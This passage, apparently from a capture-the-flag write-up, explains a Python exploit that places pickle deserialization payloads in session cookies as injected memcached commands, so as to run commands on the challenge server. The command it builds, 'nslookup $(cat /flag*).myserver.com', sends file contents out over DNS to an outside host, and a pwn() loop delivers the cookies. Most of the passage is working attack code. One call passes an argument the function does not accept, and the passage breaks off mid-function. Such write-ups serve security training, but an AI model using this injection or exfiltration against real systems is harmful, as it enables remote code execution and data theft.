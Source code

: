 ```py

def generate_rce(char, trigger=False):
    payload = pickle.dumps(RCE(char), 0)
    if trigger: payload = pickle.dumps(TriggerRCE(), 0)
    payload_size = len(payload)
    cookie = b"1\r\nset injected 0 5 "
    cookie += str.encode(str(payload_size))
    cookie += str.encode("\r\n")
    cookie += payload
    cookie += str.encode("\r\n")
    cookie += str.encode("get injected")

    pack = ""
    for x in list(cookie):
        if x > 64:
            pack += oct(x).replace("0o", "\\")
        elif x < 8:
            pack += oct(x).replace("0o", "\\00")
        else:
            pack += oct(x).replace("0o", "\\0")

    return f"\"{pack}\""


def generate_exploit(cmd):
    cmd = " ".join(cmd) + " "
    payload_list = []
    for char in cmd:
        if char == "\n":
            payload_list.append(generate_rce(char, newline=True))
        else:
            payload_list.append(generate_rce(char))
            
    return payload_list


payload_file = f"nslookup $(cat /flag*).myserver.com"
exploit = generate_exploit(payload_file)
trigger = generate_rce("", trigger=True)
```

In the code above we generate a sequence containing `echo -n '<character>'>>a` that appends each character of the payload to the `a` file, we also generate another sequence using the `TriggerRCE` class as it is important to run it at the end to cause `a` to be run.

You may also notice that we add a ` ` space between each character on thet payload, this is done because of a bug that cause the server to not accept new characters in the payload one directly after the other.

```py
def pwn():
    payload_file = f"nslookup $(cat /flag*).{DNS_EXFIL}"
    exploit = generate_exploit(payload_file)
    for char_payload in exploit:
        while True:
            time.sleep(1)
            try:
                resp = requests.get(f"{CHALLENGE_URL}/set", cookies={"session": char_payload})
                if resp.status_code != 302 or resp.status_code != 200:
                    break
                else:
                    requests.get(f"{CHALLENGE_URL}/")
                    continue
            except:
```